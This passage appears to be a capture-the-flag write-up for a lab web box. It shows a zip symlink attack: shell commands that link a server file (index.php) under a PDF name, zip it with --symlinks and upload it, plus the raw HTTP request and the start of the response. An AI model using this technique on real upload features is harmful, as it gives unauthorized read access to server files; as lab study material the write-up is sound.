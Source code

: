 ### Zip symlink exploit

While testing the zip upload functionality i found out that whenever a zip gets uploaded the application would unpack the zip and allow us to download the pdf again after being unpacked. This made me think what if i upload a file with a symlink. If the application allows this it allow me to link application files to this file making it possible to extract any file this user has access too. Create a symlink  using the following command. and create a zip file using the **--symlinks** parameter.

```
ln -s /var/www/html/shop/index.php cv1.pdf
zip --symlinks test.zip cv1.pdf
```

Then after doing these commands upload this zipfile with the upload function. This function sends the following request. Do keep in mind that the symlink is not readable content for this write up.

```
POST /upload.php HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323440569639095784743013466854
Content-Length: 532
Origin: http://10.10.11.229
Connection: close
Referer: http://10.10.11.229/upload.php
Cookie: PHPSESSID=73lml6dp7ndhvc7f29dn95el34
Upgrade-Insecure-Requests: 1

-----------------------------323440569639095784743013466854

Content-Disposition: form-data; name="zipFile"; filename="test.zip"
Content-Type: application/zip

ZIP content here

```

The server would then issue the following response giving us a link we can follow to grab our file.

```
HTTP/1.1 200 OK
Date: Thu, 28 Dec 2023 23:33:44 GMT
Server: Apache/2.4.54 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 5618
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
<html lang="en">
<head>
        <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="Start your development with Creative Design landing page.">
    <meta name="author" content="Devcrud">
    <title>Zipping | Watch store</title>

    <!-- font icons -->
    <link rel="stylesheet" href="assets/vendors/themify-icons/css/themify-icons.css">

    <!-- Bootstrap + Creative Design main styles -->
        <link rel="stylesheet" href="assets/css/creative-design.css">

```